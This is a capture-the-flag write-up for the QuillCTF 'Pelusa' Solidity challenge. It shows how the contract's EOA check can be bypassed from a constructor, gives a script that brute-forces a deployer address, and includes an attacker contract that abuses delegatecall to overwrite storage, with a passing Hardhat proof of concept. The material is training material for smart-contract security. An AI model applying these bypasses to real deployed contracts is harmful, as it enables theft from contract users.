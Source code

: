 # QuillCTF : Pelusa

## Objective of CTF
Score from 1 to 2 goals for a win.

### Contract code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IGame {
    function getBallPossesion() external view returns (address);
}

// "el baile de la gambeta"
// https://www.youtube.com/watch?v=qzxn85zX2aE
// @author https://twitter.com/eugenioclrc
contract Pelusa {
    address private immutable owner;
    address internal player;
    uint256 public goals = 1;

    constructor() {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
    }

    function passTheBall() external {
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

        player = msg.sender;
    }

    function isGoal() public view returns (bool) {
        // expect ball in owners posession
        return IGame(player).getBallPossesion() == owner;
    }

    function shoot() external {
        require(isGoal(), "missed");
				/// @dev use "the hand of god" trick
        (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
        require(success, "missed");
        require(uint256(bytes32(data)) == 22_06_1986);
    }
}
```

First, we have to set player to our contract address by calling `passTheBall()`, then we can call `shoot()` for the contract to delegate call to our contract, and changing the goals from 1 to 2

```solidity
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");
```

`passTheBall()` allows only EOA players by checking code size of `msg.sender`, however this can be bypassed by running the code on the constructor

Also it checks the address of `msg.sender`, we can bypass this by bruteforcing a contract address that can satisfy its requirement

This is a python script to find a deployer address that can deploy a contract which the contract address satisfy the requirement :

```python
from eth_account import Account
import secrets
from web3 import Web3
import rlp

while True:
	priv = secrets.token_hex(32)
	private_key = "0x" + priv
	address = Account.from_key(private_key).address
	contractAddress = Web3.keccak(rlp.encode([int(address, 16), 0]))[12:].hex()
	if (int(contractAddress, 16) % 100 == 10):
		print("Wallet : ", address)
		print("Private key : ", private_key)
		print("Contract address on nonce 0 : ", contractAddress)
		break
```

Result :
```
# python3 pelusaBruteforce.py 
Wallet :  0x3777C607EA9219683dE837dc954Bf811af459A8B
Private key :  0x764991560dd9ba6d11255e1aaea8c8562c08ab1868ac7c94e7d7485a6564ec17
Contract address on nonce 0 :  0xe6915c8325d1f7df2a6c9f4848c36adba32e2ec6
```

We can use that wallet to deploy the attacker contract, so it can pass the address check in `passTheBall()`

Also our contract need to return the owner on `getBallPossesion()`, and have a `handOfGod()` function that return `22_06_1986` and change goals to 2 when it delegate call our contract

### Attacker contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./pelusa.sol";

contract PelusaSolve {

    address private immutable owner;
    address internal player;
    uint256 public goals = 1;
    
    constructor(address contractOwner, address contractAddr) {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(contractOwner, blockhash(block.number))))));
        Pelusa(contractAddr).passTheBall();
    }
    
    function getBallPossesion() external view returns (address) {
        return owner;
    }
    
    function handOfGod() external returns (uint256) {
        goals = 2;
        return uint256(22_06_1986);
    }
    
    function exploit(address contractAddr) external {
        Pelusa(contractAddr).shoot();
    }
}
```

## Proof of concept

### Hardhat test

```js
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe('QuillCTF : Pelusa', () => {

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    attacker2 = new ethers.Wallet("0x764991560dd9ba6d11255e1aaea8c8562c08ab1868ac7c94e7d7485a6564ec17", attacker.provider);
    await attacker.sendTransaction({to: attacker2.address, value: ethers.utils.parseEther("1.0")});

    contract = await ethers.getContractFactory('Pelusa', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('Goals should be set to 2', async () => {
    // deploy the attacker contract
    attackerContract = await ethers
      .getContractFactory('PelusaSolve', attacker2)
      .then(f => f.deploy(owner.address, contract.address));
    await attackerContract.deployed();
    
    await attackerContract.connect(attacker2).exploit(contract.address);
    
    expect(await contract.goals()).to.equal(2);
  });
});
```

### Hardhat test output

```
# npx hardhat test test/pelusa-solve.js 


  QuillCTF : Pelusa
    ✔ Goals should be set to 2 (243ms)


  1 passing (2s)
```